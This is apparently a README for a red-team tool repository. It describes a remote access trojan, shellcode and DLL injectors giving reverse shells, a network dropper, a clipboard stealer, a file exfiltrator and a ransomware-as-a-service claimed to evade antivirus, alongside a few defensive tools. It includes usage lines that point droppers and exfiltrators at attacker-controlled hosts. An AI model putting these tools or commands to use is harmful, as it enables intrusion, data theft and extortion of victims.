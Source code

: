 # RedTeamPets
A collection of handy and specific tools for the Red Teamer

PLEASE USE WISELY AND FOR RESEARCH PURPOSES ONLY. I AM NOT RESPONSIBLE FOR ANY MALICIOUS ACTIONS PERFORMED BY USING MY CODES MALICIOUSLY AS IT'S ORIGINAL FORM OR MODIFIED.

__________________________________________________________________________________________________________________________________________________________________


ConvinientRAT:

An Interactive CLI RAT made with Python, that has basic features such as:
Exfiltration,
Persistence,
Privilage Esclation,
Standard Shell,
Nishang Shell,
Credential Dumping,
Mimikatz,
Information gathering,
Downloader

Usage: Start the Server, Launch the client from victim on the same IP and PORT of the server. Rest, A help menu is available on the server itself. Feature updates may continue in the future.


R3dJ0hn:

A C program to inject Single-Stage shellcode into the memory of another running process. It first scans through all the running processes and matches a set of pre-mentioned process names. It tries to acquire an handle to each of them and stops it it gets it.
Then injects a custom shellcode into the memory, thus giving a reverse shell back to the adversary and later on adds registry startup key for persistence. Long sleep timer induced to induce confusion of the blue teamer over the other side.
The project needs to be built each time for each purpose.


Split Drop in Mem:

Another process injector but made with Python that has a dropper built within. The Host.py needs to be run with a 64 bit Single-Stage reverse shell.exe. Example: python host.py reverse_sh.exe. This exe file will be converted to shellcode via Donut and then then encrypted and hosted over HTTP.
Once, the dropper is launched from the victim PC (python drop.py IP:PORT), the encrypted file, KEY and IV will be downloaded. Then the shellcode will be decrypted and injected into python's own memory, thus giving a remote shell back to the adversary.


WinProcInjDLL:

Another process injector made with C, but this time a DLL will be injected instead of a shellcode. The DLL can be made by say MSFVenom.
The DLL has to be hosted via HTTP as payload.dll (Static Naming Convention), and then the C program to be compiled and launched in the victim PC as filename.exe http://IP:PORT/payload.dll. The DLL will be downloaded and injected into Notepad (Can be changed before compilation), Thus giving a reverse shell back to the adversary.


BruteMysql:

A simple wordlist based MySQL Bruteforce program in python. Nothing fancy.


ClipWatch:

A python malware that is programmed to launch from Admin. Creates Persistence via Registry and Scheduled tasks.
It runs periodically and watches the clipboard for data. As it captures the data, it collects it and writes to a file in the same directory. This file could be later exfiltrated. In the future, a Call back home feature could be implemented to upload the data directly onto a server.


Dump VirusShare:

(Blue Team): If one has a special access to VirusShare then this app can't help but if not, This tool will crawl the whole hash directory of VirusShare.com and write a CSV file with all the hashes possible. This will be benefical to Blue teamers often. Though the process is time consuming, but still 100 times faster than the manual approach.


Invoke-Adversary 2022:

Nothing original but Invoke-Adversary already exists in GitHub that is quite used by security companies to demonstrate red team simulation to the clients. Only problem is the original is old and runs on commands and cmdlets from old powershell versions. I have just morphed it to be used with the current powershell version of 2022.


Xfiltrator:

An exfiltration malware made with Python that connects back to an FTP server created by the adversary and it eventually downloads all document based files present within the victim PC. 
Usage: python xfiltrator.py FTP_IP FTP_Username FTP_password


bofhelper:

Another Python based tool that basically helps to find the IP offset during a Buffer Overflow simulation. I have made this for myself once when I was learning to BOF. Best thing about it is you don't have to memorize commands. The whole thing is made interactive.


Eyeris:

(Blue Team): A Python based tool that when provided a PID of an administrative CMD, acts as a task manager but only for that one process.
This is benificial for understanding process flow of malwares so that a pattern can be extracted and an EDR custom query could be built for obvious reasons. This feature is by default present in EDRs but ofcourse personally no one has red team simulation access for research purposes except people working in the EDR company. Anyways
Usage:
Provide a PID from a CMD.
Run a sample malware from the same CMD.
Quit the CMD once it's activities are over.
This program will generate a Tree-Node structure JSON, that can be analyzed and referenced for building the custom EDR queries.


Outis, A ransomware as a service.

A Dedicated Ransomware with it's own C2 and parmanent sleep that only works on instruction from C2. Currently undetected with AV that remains unnamed.
Instructions, Codes, Usage are separately written on the Documentation.txt file.


LilMon:

A small network monitor that monitors and logs IP connects to a set of IPs in a text file and stores it in a log file.

Use Case:
Demonstration Purposes
Checking a computer for connects to known malicious IPs

